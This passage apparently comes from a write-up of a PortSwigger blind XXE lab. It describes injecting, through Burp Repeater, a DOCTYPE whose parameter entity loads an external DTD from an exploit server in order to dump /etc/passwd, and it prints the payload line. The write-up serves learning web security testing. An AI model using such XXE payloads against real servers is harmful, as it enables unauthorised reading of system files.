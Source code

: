 ![find XML declaration](/docs/assets/images/portswigger/blindxxe/bxxe24.png)

Within the repeater I'll add a line under the XML declaration to create and entity `xxe` that references the contents of the file I created above in the webservers response to my request, essentially dumping the `/etc/passwd` file in the response: 

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a1e003604e27d1382a0698601630084.exploit-server.net/exploit"> %xxe;]>` 
